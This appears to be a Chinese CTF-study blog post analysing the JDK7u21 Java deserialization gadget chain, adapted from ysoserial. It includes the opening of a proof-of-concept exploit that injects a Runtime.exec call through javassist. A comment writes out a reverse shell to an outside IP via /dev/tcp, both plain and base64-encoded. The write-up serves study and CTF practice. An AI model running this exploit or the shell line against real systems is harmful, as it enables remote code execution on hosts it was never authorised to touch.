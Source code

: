 最近刷了一些`CTF的Java安全方向题目`，发现好几道都是JDK原生序列化，但是我对原生攻击链掌握的也不是很好。所以这里就写两篇文章专门分析一下这些原生序列化链吧，这篇7u21的文章还是老规矩以`ysoserial`中的代码为例进行改造。

JDK7u21 攻击链实际上并不是特定于 `JDK 7u21` 这个版本发现的，而是基于 JDK 的反序列化机制，通过利用 `sun.reflect.annotation.AnnotationInvocationHandler` 类构造恶意链条来实现任意代码执行。它被命名为 7u21 攻击链，主要是因为这种利用方式是在 JDK 7u21 版本之后的更新中引入了对 `AnnotationInvocationHandler` 的修复，防止它被滥用。

该攻击链在JDK7u21之后被修复。

复现版本：JDK7u21

```
<dependency>
    <groupId>org.javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.18.1-GA</version>
</dependency>
```

这里就先给POC吧，方便兄弟们调试：

## POC代码

```java
package origin;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.LinkedHashSet;

public class JDK7u21 {
    static String serialFileName = "jdk21.ser";

    public static void main(String[] args) throws Exception {
        // ================================开始创建templates==========================================
        // bash -c {echo,bash -i >& /dev/tcp/192.168.2.234/4444 0>&1}|{base64,-d}|{bash,-i}
        // bash -c {echo,<base64反弹shell>}|{base64,-d}|{bash,-i}
        // String shellcode = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMjM0LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";
        String shellcode = "calc";
        String executeCode = "Runtime.getRuntime().exec(\"" + shellcode + "\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

```